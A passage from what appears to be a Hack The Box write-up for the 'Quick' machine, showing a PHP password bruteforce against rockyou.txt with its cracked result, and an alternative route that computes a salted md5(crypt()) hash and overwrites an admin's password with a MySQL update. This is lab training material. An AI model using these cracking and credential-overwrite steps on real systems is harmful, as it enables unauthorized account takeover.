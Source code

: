 ```php
}
?>
```
Creating a simple password bruteforcer, which reads every line from rockyou.txt, removes newlines and hashes it according to the source code of the printer webpage. Let us now run the crack script to get the password.

```bash
root@darkness:~# php crack.php
Found password: yl51pbx
```
Running the cracking script, the password should be found within seconds.

Now it's possible to login with the cracked password.

![PrinterV2 Login](/assets/htb/Quick/printerv2-login.png)

### Way 2: Changing the hash in the DB

The other way to login successfully, is by changing the password of the user. As we know both hashing algorithms and the salt, we can simply create our own hash. 

```bash
root@darkness:~# php -a
Interactive mode enabled

php > echo md5(crypt("chronos","fa"));
133d3f866a5a51b7b27fedb38af7bf1e
```
```bash
mysql> update users set password='133d3f866a5a51b7b27fedb38af7bf1e' where email='srvadm@quick.htb';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | 133d3f866a5a51b7b27fedb38af7bf1e |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```